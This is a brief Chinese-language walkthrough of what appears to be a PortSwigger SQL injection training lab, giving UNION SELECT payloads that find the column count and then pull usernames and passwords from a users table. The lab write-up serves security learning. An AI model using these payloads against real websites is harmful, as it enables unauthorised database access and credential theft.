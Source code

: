 确定产品分类处存在sql注入

pyload:

```javascript
'union+select+null,null--+
```

确定数据表有两列



payload:

```javascript
'union+select+username,password+from+users--+
```

返回users表内容：

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/portswigger-labs/SQL/images/31EB011A8BA9448F8259A6D94F54A07Dclipboard.png)

